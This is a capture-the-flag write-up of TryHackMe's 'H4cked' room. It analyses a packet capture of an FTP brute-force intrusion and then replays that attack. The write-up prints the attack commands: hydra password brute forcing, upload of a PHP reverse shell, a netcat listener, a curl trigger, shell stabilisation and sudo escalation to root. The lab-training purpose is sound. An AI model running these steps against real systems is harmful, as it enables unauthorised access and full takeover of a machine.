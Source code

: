```yaml
---
title: "TryHackMe - H4cked"
author: Nasrallah
description: ""
date: 2022-06-01 00:00:00 +0000
categories : [TryHackMe]
tags: [tryhackme, linux, wireshark, ftp, bruteforce, hydra]
img_path: /assets/img/tryhackme/h4cked/
---
```


<div align="center"> <script src="https://tryhackme.com/badge/367641"></script> </div>

---


## **Description**

Hello hackers, I hope you are doing well. We are doing [H4cked](https://tryhackme.com/room/h4cked) from [TryHackMe](https://tryhackme.com).

## Task1

Let's download the task file, open it with wireshark and start investigating.

![wireshark](1.png)

In the first packets of the capture, we see the attacker trying to connect to port 21, which is FTP.

![](2.png)

We see the attacker attempting to login to an ftp server trying multiple passwords with the user `jenny`. He must be using `hydra` to brute force the login.

![](3.png)

If we scrolled down through the packets we can see a successful login.

![](4.png)

To view the password, right click the packet and follow tcp stream.

![](5.png)

Scrolling down the packets, we can see the hackers own attempt after he stopped brute forcing.

![](6.png)

Right click one of those packets and follow tcp stream.

![](7.png)

Here we can see what the hacked did before exiting.

After the attacked had logged in successfully, he was in `/var/www/html` directory, uploaded a file called `shell.php`, gave it full permissions and exited after that.

We can see that he requested that file after that from his attacking machine, which gave his a reverse shell on the machine.

![](8.png)

Let's now follow the tcp stream of that reverse shell and what did the attacker do.

![](9.png)

After gaining a shell, the attacking run the command `whoami` to see what user's account he is using, and it was `www-data`.

Since he knows jenny's password, the attacker changed to that user with the command `su jenny` after stabilizing his shell with the command `python3 -c 'import pty; pty.spawn("/bin/bash")'`.

The attacker checked jenny's permissions on the machine with the command `sudo -l`, and he found that he can run any command as root, so he simply changed the user to root with `sudo su`.

We can see after that he cloned a repo from github called `reptile`, which is a rootkit.

## Task2

The attacker has changed jenny's password, so let's replicate his steps and try to get into the machine.

## **Enumeration**

### nmap

We start a nmap scan using the following command: `sudo nmap -sC -sV -T4 {target_IP}`.

- -sC: run all the default scripts.

- -sV: Find the version of services running on the target.

- -T4: Aggressive scan to provide faster results.

```terminal
Nmap scan report for 10.10.3.106 (10.10.3.106)
Host is up (0.064s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 2.0.8 or later
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.29 (Ubuntu)
```

We see ftp on port 21 and http on port 80.

## **Foothold**

Same as the hacker, let's start brute forcing ftp server with hydra. `hydra -l jenny -P /usr/share/wordlists/rockyou.txt 10.10.3.106 ftp`

![](10.png)

Great! We got the password, now let's download the reverse shell code the attacker used `http://pentestmonkey.net/tools/php-reverse-shell`.

Before uploading the file, we need to change the ip address to the one of our attacking machine.

Now let's login the the ftp server and upload the shell.

![](11.png)

After logging successfully, i used the command `put` to upload the reverse shell code (reverse.php), and don't forget to change permission like i did, use `chmod 777 reverse.php`.

Set up a netcat listener `nc -lvnp 1234`, and request the reverse.php file we uploaded, i used curl to do that. `curl http://10.10.10.10/reverse.php`

![](12.png)

Great! We got the reverse shell.

## **Privilege Escalation**

For this part, we saw the hacker use jenny's ability to run any command as root and change the user to root, let's do that.

First, let's run this command `python3 -c 'import pty;pty.spawn("/bin/bash")'` to stabilize our shell.

Change the user to jenny using the password found earlier, and run `sudo su` to change user to root.

![](13.png)

---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).

---

## References

http://pentestmonkey.net/tools/php-reverse-shell